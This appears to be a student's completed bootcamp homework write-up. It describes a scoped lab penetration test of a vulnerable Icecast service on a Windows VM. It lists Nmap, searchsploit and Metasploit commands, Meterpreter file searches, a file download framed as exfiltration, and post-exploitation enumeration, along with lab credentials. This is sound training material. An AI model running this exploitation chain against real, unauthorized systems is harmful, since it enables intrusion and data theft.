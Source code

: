 Homework: Penetration Test Engagement
In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

The CEO claims to have passwords that are long and complex and therefore unhackable.

You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings recipe and seceretfile.

The deliverable for this engagement will be in the form of a report labeled Report.docx.

Setup
Before you begin, we'll need to start the Icecast server to emulate the CEO's computer.
Log onto the DVW10 machine (credentials IEUser:Passw0rd!) and wait for the Icecast application to popup.
Then click Start Server.
Reminders
A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.

If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.

Scope
The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.

The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited.

After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.

Since you've already been provided access to the network, OSINT won't be necessary.

Lab Environment
For this week's homework, please use the following VM setup:

Attacking machine: Kali Linux root:toor
Target machine: DVW10 IEUser:Passw0rd!
NOTE: You will need to login to the DVW10 VM and start the icecast service prior to beginning this activity using the following procedure:

After logging into DVW10, type "icecast" in the Cortana search box and hit Enter.
The icecast application will launch.
Click on Start Server.
You are now ready to being the activity.
Deliverable
Once you complete this assignment, submit your findings in the following document:

Report.docx
Instructions
You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

Perform a service and version scan using Nmap to determine which services are up and running:

Run the Nmap command that performs a service and version scan against the target.

Answer: nmap -sS -sV -O 192.168.0.20

![image](https://user-images.githubusercontent.com/93474690/146692260-379634d0-b0c6-4841-82b8-dfe5100c5627.png)

From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

Run the SearchSploit commands to show available Icecast exploits.

Answer: searchsploit icecast

![image](https://user-images.githubusercontent.com/93474690/146692275-23f99b03-d991-4850-b3f8-d621217a108e.png)

Now that we know which exploits are available to us, let's start Metasploit:

Run the command that starts Metasploit:

Answer: msfconsole

Search for the Icecast module and load it for use.

Run the command to search for the Icecast module:

Answer: search icecast

![image](https://user-images.githubusercontent.com/93474690/146692292-9f564f67-863d-4488-bcb8-b12b54320c7d.png)

Run the command to use the Icecast module:

Note: Instead of copying the entire path to the module, you can use the number in front of it.

Answer: use 0

![image](https://user-images.githubusercontent.com/93474690/146692322-b675c9eb-5be4-4970-a8fb-fd71d41eb43e.png)

Set the RHOST to the target machine.

Run the command that sets the RHOST:

Answer: set RHOST 192.168.0.20

![image](https://user-images.githubusercontent.com/93474690/146692340-faaea479-a3f3-4dcf-a0fa-f84298f0aec0.png)
Run the Icecast exploit.

Run the command that runs the Icecast exploit.

Answer: exploit

![image](https://user-images.githubusercontent.com/93474690/146692358-5e730381-32aa-4e97-9fa2-8b15f198e33d.png)

Run the command that performs a search for the secretfile.txt on the target.

Answer: search -f *secretfile*.txt

![image](https://user-images.githubusercontent.com/93474690/146692366-0c4d8306-b8b9-41e1-9493-c0e4c68f440e.png)

You should now have a Meterpreter session open.

Run the command to performs a search for the recipe.txt on the target:

Answer: search -f *recipe*.txt

![image](https://user-images.githubusercontent.com/93474690/146692378-39b92b3e-a1b3-4dae-aad9-f768e42d9fd6.png)

Bonus: Run the command that exfiltrates the recipe*.txt file:

Answer: download ‘c:\Users\IEUser\Documents\Drinks.recipe.txt’

![image](https://user-images.githubusercontent.com/93474690/146692395-df50bb9a-4e70-4f5e-b80b-33e9b248b565.png)

You can also use Meterpreter's local exploit suggester to find possible exploits.

Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

Answer: run post/multi/recon/local_exploit_suggester

![image](https://user-images.githubusercontent.com/93474690/146692413-67bb2a30-45e5-44c0-abda-422563529dd4.png)

Bonus
A. Run a Meterpreter post script that enumerates all logged on users.

Answer: run post/windows/gather/enum_logged_on_users

![image](https://user-images.githubusercontent.com/93474690/146692429-d527cd75-0d44-4ced-9d05-9c8c99c4018c.png)

 Open a Meterpreter shell and gather system information for the target.

Answer: shell

![image](https://user-images.githubusercontent.com/93474690/146692446-f395f210-e300-4658-b43f-9205b841e021.png)

. Run the command that displays the target's computer system information:

Answer: sysinfo

![image](https://user-images.githubusercontent.com/93474690/146692480-c8bfaf39-3fc3-4578-a8d9-57031f3e02d7.png)
